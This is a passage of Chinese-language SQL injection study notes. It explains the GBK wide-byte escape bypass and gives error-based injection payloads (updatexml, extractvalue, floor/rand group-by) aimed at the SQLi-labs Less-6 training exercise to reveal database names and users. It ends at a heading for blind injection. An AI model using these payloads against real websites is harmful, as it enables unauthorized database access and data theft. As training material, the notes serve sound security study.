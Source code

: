     4. 实际上的流程
        
        `%df%27` 浏览器url自动解码===> `β\'`转为16进制===> `0xdf0x5c0x27` 转换为url编码===> `%df%5c%27` 进行url解码(因为是GBK编码，`%df`和`%5c`结合为汉字)===> `運'`
        
        所以斜杠就被吃掉了，`%df`和`%5c`才可以结合为汉字，`%df`和`\`是无法结合的
        

### 报错注入

> mysql数据库中显示错误描述是因为开发程序中采用了`print_r  mysql_error()`函数，将`mysql`错误信息输出
> 
1. **extractvalue & updatexml**
    
    > Mysql 版本 > 5.1 ，两个函数都是基于`Xpath`报错 ，因为 `~` 不属于`Xpath`语法，所以会报错
    > 
    1. **updatexml**
        
        ```python
        # SQLi labs - 06
        /Less-6/?id=1" and (select updatexml(1,concat('~',(select database())),1))--+
        /Less-6/?id=1" and updatexml(1,concat('~',(select database())),1) --+
        ```
        
    2. **extractvalue** 
        
        ```python
        /Less-6/?id=1" and extractvalue(1,concat('~',database(),'~',user()))--+
        /Less-6/?id=1" and (select extractvalue(1,concat('~',database(),'~',user())))--+
        ```
        
    3. Tips：当`'~'` 被过滤是可以用`0x7e` 代替
2. floor
    
    > 利用`select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;`导致数据库报错，通过`concat`函数连接注入语句与`floor(rand(0)*2)`函数，实现将注入结果与报错信息回显的注入方式
    > 
    
    至少要求数据记录为 3 行，记录数超过 3 行一定会报错，2 行时是不报错的
    
    ```python
    # 判断是否存在 floor 报错注入
    /Less-6/?id=1" union select 1,count(*),floor(rand(0)*2) x from information_schema.tables group by x--+
    # 表
    /Less-6/?id=1" union select 1,count(*),concat(floor(rand(0)*2),database()) x from information_schema.tables group by x--+
    ```
    

### 布尔盲注
